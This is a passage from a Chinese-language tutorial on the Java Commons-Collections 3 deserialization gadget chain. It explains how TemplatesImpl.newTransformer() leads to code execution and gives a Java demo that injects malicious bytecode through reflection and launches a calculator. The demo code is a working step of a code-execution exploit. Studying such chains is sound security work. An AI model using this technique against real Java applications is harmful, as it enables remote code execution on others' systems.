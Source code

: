 如下图，455 行执行完毕即可弹计算器。

![](https://i.imgur.com/e7SKGdf.png)


### 6. TemplatesImpl.newTransformer()

如果能走完这个函数那么就能动态执行代码，但是因为它是私有的，所以继续找。

在 `TemplatesImpl.newTransformer()`  486 行发现相关调用：

![](https://i.imgur.com/9ivhwNA.png)

可以看到这是一个公有方法，意味着可在外部直接调用。

**小练习**
根据目前的分析，写出完整的链子 demo。

思路：
由于 newTransformer() 方法是公有的，所以直接调用就好。

```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射修改 __name,__class 默认是 null。

        Field field2 = c1.getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates,"mirror4s");

        // 4. 直接调用 newTransformer() 弹出计算器
        templates.newTransformer();
```
运行之后即可弹出计算器（虽然报了奇怪的空指针异常）

![](https://i.imgur.com/1qFLBvp.png)
